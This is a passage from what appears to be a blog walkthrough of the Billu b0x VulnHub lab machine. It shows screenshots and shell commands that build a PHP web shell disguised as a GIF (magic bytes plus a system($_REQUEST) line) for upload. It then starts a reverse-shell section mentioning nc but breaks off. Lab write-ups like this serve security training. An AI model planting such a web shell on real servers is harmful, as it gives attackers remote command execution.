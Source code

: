 ![9-11.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-11.png)


This is what we'll exploit. 
First we check the proof of concept.

![9-12.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-12.png)
![9-13.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-13.png)


We're now getting execution. Next we prepare the payload and upload it;

    echo 'FFD8FFEo' | xxd -r -p > giphy.gif
    echo '<?php system($_REQUEST["cmd"]); ?>' >> giphy.gif

__Note:__ There's no space between __?__ and __php.__ It has to be __'<?php'__ . Banged my head for hours on this. Only to realise the syntax was wrong.

## Low shell: method 1
We can get the reverse shell via 2 ways;
1. using nc


[1]: https://www.vulnhub.com/entry/zico2-1,210/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator